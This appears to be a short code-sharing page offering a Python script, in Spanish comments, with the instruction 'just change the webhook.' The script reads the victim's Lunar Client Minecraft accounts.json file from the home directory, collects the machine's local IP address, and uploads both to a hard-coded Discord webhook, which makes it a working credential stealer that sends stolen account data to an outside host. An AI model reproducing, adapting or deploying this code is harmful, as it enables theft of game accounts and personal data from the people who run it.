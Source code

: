 just change the webhook.
import requests
import json
import socket
import os

def obtener_ip_local():
    try:
        # Crear un socket para obtener la dirección IP local
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(('8.8.8.8', 80))
        ip_local = s.getsockname()[0]
        s.close()
        return ip_local
    except Exception as e:
        return str(e)

def enviar_a_webhook(webhook_url, mensaje, archivo_path):
    files = {
        'file': (os.path.basename(archivo_path), open(archivo_path, 'rb'), 'application/json')
    }
    data = {
        "content": mensaje
    }

    response = requests.post(webhook_url, data=data, files=files)

    if response.status_code == 204:
        print("Mensaje y archivo enviados exitosamente.")
    else:
        print(f"Error al enviar el mensaje y el archivo: {response.status_code} - {response.text}")

if __name__ == "__main__":
    webhook_url = "https://discord.com/api/webhooks/1378230478141919332/3jjvT-3bemxZqWNEVJpOoXyPBg0et80AsC2hMgSoopFHWE_Z-8js6CZ2Ai6rtCZ0RBSU"
    ip_local = obtener_ip_local()
    ruta_accounts = os.path.expanduser("~/.lunarclient/settings/game/accounts.json")

    mensaje = f"Dirección IP del dispositivo: {ip_local}"

    enviar_a_webhook(webhook_url, mensaje, ruta_accounts)
